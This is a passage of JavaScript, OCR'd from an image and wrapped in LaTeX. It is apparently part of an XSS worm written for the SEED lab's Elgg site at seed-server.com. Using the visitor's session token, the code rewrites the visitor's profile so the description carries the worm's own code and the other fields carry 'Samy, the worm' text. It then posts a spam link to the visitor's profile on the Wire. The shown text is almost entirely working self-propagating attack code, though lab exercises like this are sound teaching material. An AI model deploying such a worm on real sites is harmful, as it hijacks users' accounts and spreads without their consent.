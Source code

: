 \documentclass[12pt]{article}
\begin{document}
\begin{verbatim}
        var formData = new FormData();
        formData.append('__elgg_token', token);
        formData.append('__elgg_ts', ts);
        formData.append('name', userName);
        formData.append('description', wormCode);
        formData.append('accesslevel[description]', '1');
        formData.append('briefdescription', 'I am Samy, the worm. Catch me if you can.');
        formData.append('accesslevel[briefdescription]', '1');
        formData.append('location', 'Pyongyang');
        formData.append('accesslevel[location]', '1');
        formData.append('interests', 'Hacking, XSS, Worms, CSRF, and so on.');
        formData.append('accesslevel[interests]', '1');
        formData.append('skills', 'I can write a worm in 5 minutes. Can you?');
        formData.append('accesslevel[skills]', '1');
        formData.append('contactemail', 'catchmeifyoucan@yahoo.com');
        formData.append('accesslevel[contactemail]', '1');
        formData.append('phone', '9557134');
        formData.append('accesslevel[phone]', '1');
        formData.append('mobile', '01234567890');
        formData.append('accesslevel[mobile]', '1');
        formData.append('website', 'www.samy-worm.com');
        formData.append('accesslevel[website]', '1');
        formData.append('twitter', 'elonmusk');
        formData.append('accesslevel[twitter]', '1');
        formData.append('guid', guid);
        var Ajax2 = new XMLHttpRequest();
        Ajax2.open("POST", sendurl, true);
        Ajax2.setRequestHeader("Host", "www.seed-server.com");
        Ajax2.send(formData);


        // Third Part: Post the profile link of the visitor on Wire
        var sendurl = "/action/thewire/add";
        var postBody = "To earn 12 USD/Hour(!), visit now\nhttp://www.seed-server.com/profile/" + userName;
        var formData = new FormData();
        formData.append('__elgg_token', token);
        formData.append('__elgg_ts', ts);
        formData.append('body', postBody);
        var Ajax3 = new XMLHttpRequest();
        Ajax3.open("POST", sendurl, true);
        Ajax3.setRequestHeader("Host", "www.seed-server.com");
        Ajax3.send(formData);
    }
</script>
\end{verbatim}
\end{document}
